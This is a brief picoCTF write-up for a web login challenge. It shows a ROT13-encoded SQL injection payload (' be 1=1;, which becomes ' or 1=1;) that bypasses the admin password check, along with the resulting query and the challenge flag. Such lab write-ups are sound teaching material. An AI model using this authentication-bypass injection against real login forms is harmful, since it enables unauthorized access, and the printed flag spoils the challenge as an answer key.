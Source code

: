 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Pistas
- Seems like the password is encrypted.

## Solución
```
password: abcde
SQL query: SELECT * FROM admin where password = 'nopqr'

# Login failed.


password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```

## Notas adicionales


## Referencias
- https://www.useotools.com/es/rot13
